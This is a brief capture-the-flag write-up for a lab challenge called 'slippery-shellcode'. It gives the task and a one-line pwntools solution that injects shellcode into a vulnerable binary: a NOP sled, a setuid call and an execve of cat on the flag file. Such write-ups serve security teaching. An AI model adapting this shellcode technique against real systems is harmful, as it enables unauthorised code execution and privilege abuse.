 # slippery-shellcode

## Summary

This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_2_4061c12f5a4a9d8c1c3f45b25fbcb09a on the shell server. Source.

## Solution

```sh
cd /problems/slippery-shellcode_2_4061c12f5a4a9d8c1c3f45b25fbcb09a; python -c 'from pwn import *; print(asm(shellcraft.nop() * 400 + shellcraft.setuid(1002) + shellcraft.execve(path="/bin/cat", argv=["/bin/cat","./flag.txt"])))' | ./vuln;echo
```
